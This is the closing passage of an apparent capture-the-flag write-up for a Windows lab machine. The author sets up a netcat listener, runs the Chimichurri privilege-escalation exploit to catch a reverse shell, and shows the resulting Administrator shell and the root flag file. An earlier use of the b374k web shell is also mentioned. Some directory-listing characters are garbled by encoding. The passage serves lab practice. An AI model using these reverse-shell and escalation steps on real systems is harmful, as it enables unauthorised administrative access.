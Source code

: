 *Started a netcat listener on my host machine*

    $ nc -lvp 5555
    Listening on [0.0.0.0] (family 0, port 5555)

*and on metasploit I ran* `Chimichurri.exe 5555`

*I got another shell but this time as root.*

    Connection from [10.10.10.9] port 5555 [tcp/] accepted (family 2, sport 49314)
    Microsoft Windows [Version 6.1.7600]
    Copyright © 2009 Microsoft Corporation. All rights reserved.
    cd C:\Users\Administrator\Desktop
    Directory of C:\Users\Administrator\Desktop
    19/03/2017 08:33 ��
    .
    19/03/2017 08:33 ��
    ..
    19/03/2017 08:34 �� 32 root.txt.txt
    1 File(s) 32 bytes
    2 Dir(s) 31.039.451.136 bytes free

**Got Root Flag!**

I really enjoyed this box but in some parts I was struggling that’s why I had to use b374k’s shell if someone else did it differently I would love to hear how you achieved to upload a file to the targets machine without the use of a webshell.

You can follow me on twitter [@0katz](https://www.twitter.com/0katz)


## #TogetherWeHitHarder
